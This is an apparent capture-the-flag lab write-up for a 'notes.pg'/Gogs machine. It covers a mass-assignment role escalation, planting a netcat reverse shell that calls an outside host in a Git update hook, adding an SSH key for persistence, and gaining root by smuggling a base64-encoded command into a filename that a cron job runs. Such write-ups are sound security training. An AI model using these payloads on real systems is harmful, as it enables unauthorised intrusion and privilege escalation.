 - All: #notes-pg #gogs #api #git-hook #reverse-shell #netcat-busybox #pspy #cron #find #exec #bash-p #base64
- Foothold: #notes-pg #api
- Access: #gogs #git-hook #reverse-shell #netcat-busybox
- Priv Esc: #pspy #cron #find #exec #bash-p #base64
#### Enumeration

>[!code] Enumerate the ports
>- rustscan -a $ip
>
>![Pasted image 20240609145513](Images/Pasted%20image%2020240609145513.png)

>[!code]- Note the web server at port 8000 (a Gogs service)
>- A Gogs service:
>
>![Pasted image 20240610045354](Images/Pasted%20image%2020240610045354.png)
#### Local.txt
##### Find login credentials for the Gogs service

>[!code]- Navigate to the web server on port 80 (a notes.pg service)
>We're met with a login page:
>>[!code]- Screenshot of the login page
>>![Pasted image 20240610043302](Images/Pasted%20image%2020240610043302.png)

>[!code]- Create an account and note the POST payload
Note the POST data used when creating an account:
>```powershell
>authenticity_token=pR8JHMdHN-duxwY2UT7Kd5JPwOz61k5fcjR79C-tPYT87LDqLvI3VgylAkUhINhKxz9W9nZYUMhAcBXyFVNL4g&user%5Busername%5D=new_user&user%5Bpassword%5D=new_password&user%5Bpassword_confirmation%5D=new_password&button=
>```

>[!code]- Discover that we don't have access to all the posted notes on the website
>- After creating a note we see we can access it at http://assignment.pg/notes/6
>- So there must be another 5 notes
>- We are told we have _Insufficient rights!_ to access ../notes/1
>
>>[!code]- Create a new note
>>![Pasted image 20240610044141](Images/Pasted%20image%2020240610044141.png)
>
>>[!code]- Note the URL of the created note (.../notes/6)
>>![Pasted image 20240610044202](Images/Pasted%20image%2020240610044202.png)
>
>>[!code]- Cannot access .../notes/1
>>![Pasted image 20240610044356](Images/Pasted%20image%2020240610044356.png)

>[!Exploit]- Priv Esc 1. Find leaked credentials for another account
>- The _members_ page includes the POST payload of a created account.
>- It suggests an account has the username _forged_owner_:_forged_owner_
>
>>[!code]- The members page
>>![Pasted image 20240610043459](Images/Pasted%20image%2020240610043459.png)

>[!exploit]- Priv Esc 2. Abuse the _role_ attribute when creating a new account
>- When browsing our profile information, we see there is a _role_ attribute which equals _member_.
>- In contrast, the _role_ attribute for the _jane_ account is _owner_.
>- This suggests when creating a new account we can set this role attribute to owner.
>
>>[!code]- Profile of our account
>>![Pasted image 20240611045102](Images/Pasted%20image%2020240611045102.png)
>
>>[!code]- Profile of the _jane_ account
>>![Pasted image 20240611045138](Images/Pasted%20image%2020240611045138.png)
>
>So, when creating a new account (_forged_owner_), we can edit the payload to make our role be an _owner_:
>```powershell
>authenticity_token=oPR93X4UzlLdlPeg_Aek9v3XDDJLLoL3hXS8pHLwzOPz8ER61j8nzjESjr4Tsq-_VGRhZBVCZ9TSr9VZqIe5YQ&user[username]=forged_owner&user[role]=owner&user[password]=forged_owner&user[password_confirmation]=forged_owner&button=
>```

>[!code]- Login as _forged_user_ and get access to note 1
>- It appears to contain credentials for the Gogs service (running at port 8000):
>
>>[!code]- Note 1
>>![Pasted image 20240610044811](Images/Pasted%20image%2020240610044811.png)

>[!success]- Obtain credentials `jane`:`svc-dev2022@@@!;P;4SSw0Rd`
##### Obtain a reverse shell via the Gogs service

>[!code]- Login to Gogs and create a new repository
>Create a new repository
>>[!code]- Create a new repository
>>![Pasted image 20240610045601](Images/Pasted%20image%2020240610045601.png)

>[!exploit]- Exploit - We can edit the _update_ Git Hook to execute a reverse shell
>Update the 'update' Git Hook so that it executes a reverse shell.
>- The code within the update Git Hook will execute when the repository is updated, eg when something it committed to it.
>- The chosen reverse shell is [Netcat Busybox](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#netcat-busybox)
>
>>[!code]- Adding a reverse shell into the update Git Hook
>>![Pasted image 20240610045801](Images/Pasted%20image%2020240610045801.png)
>
>>[!code]- Netcat Busybox reverse shell
>>```bash
>>rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
>>```

>[!code]- Clone the repository to execute the Git Hook
>To update the repository we can add a file to the repository:
>```bash
>$ git clone http://assignment.pg:8000/jane/test.git
>$ cd test
>$ touch README.md
>$ git init
>$ git add README.md
>$ git commit -m "first commit"
>```
>___
>
>Setup a listener on Kali:
>```bash
>$ nc -lvnp 1234
>```
>___
>
>Push the changes to the repository and catch the reverse shell with the listener:
>```bash
> git push origin master
>```

>[!success]- Obtain local.txt
>After receiving our reverse shell, we can find local.txt:
>![Pasted image 20240610053205](Images/Pasted%20image%2020240610053205.png)

>[!code]- Get SSH access as Jane
>Create the authorized_keys folder on victim:
>```bash
>$ cd /home/jane/.ssh/
>$ touch authorized_keys
>```
>Copy my public key on Kali into the authorized_keys files on victim:
>```bash
>bubbleman@kali>$ cat id_ed25519.pub
>$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICht3Ccu4rTtNKLaGqJzTTqFu7MwpBQuPpftcfBYADxn bubbleman@kali' > authorized_keys
>```
>SSH into victim as jane:
>```bash
>bubbleman@kali>$ ssh jane@192.168.235.224 -i ~/.ssh/id_ed25519
>```
#### Proof.txt

>[!code]- Run pspy and find a cron job running a vulnerable find command
>- A script is executing a vulnerable command as root
>
>>[!code]- Cron job
>>![Pasted image 20240612044104](Images/Pasted%20image%2020240612044104.png)
>
>We have write permissions on the /dev/shm/ folder:
>>[!code]- /dev/shm/ permissions
>>![Pasted image 20240612044327](Images/Pasted%20image%2020240612044327.png)

>[!exploit]- Exploit - Create a malicious file for the find command
>- The cron job finds all files within the _/dev/shm/_ directory and passes them to the _rm_ command which executes them
>- We can create a new file which adds SUID permissions to the _/bin/bash_ file (ignore the backslash before the double equals sign)
>
>```bash
>jane@assignment:/tmp$ touch /dev/shm/'$(echo -n Y2htb2QgdStzIC9iaW4vYmFzaA\==|base64 -d|bash)'
>```
>
>>[!code]- The decoded base64 string
>>![Pasted image 20240611052054](Images/Pasted%20image%2020240611052054.png)
>
>This would cause the cron script to execute:
>```bash
>sh -c 'rm $(echo -n Y2htb2QgdStzIC9iaW4vYmFzaA\==|base64 -d|bash)'
>```
>After creating the file, /dev/shm/ contains:
>>[!code]- /dev/shm with the malicious file
>>![Pasted image 20240612045538](Images/Pasted%20image%2020240612045538.png)
>
>The permissions of the /bin/bash change after executing:
>>[!code]- /bin/bash permission change
>>Before:
>>![Pasted image 20240612045037](Images/Pasted%20image%2020240612045037.png)
>>After:
>>![Pasted image 20240612045606](Images/Pasted%20image%2020240612045606.png)
>
>Now we can execute bash with the permissions of the owner (**-p**):
>
>![Pasted image 20240612045719](Images/Pasted%20image%2020240612045719.png)

>[!success]- Obtain proof.txt
>
>![Pasted image 20240612045907](Images/Pasted%20image%2020240612045907.png)




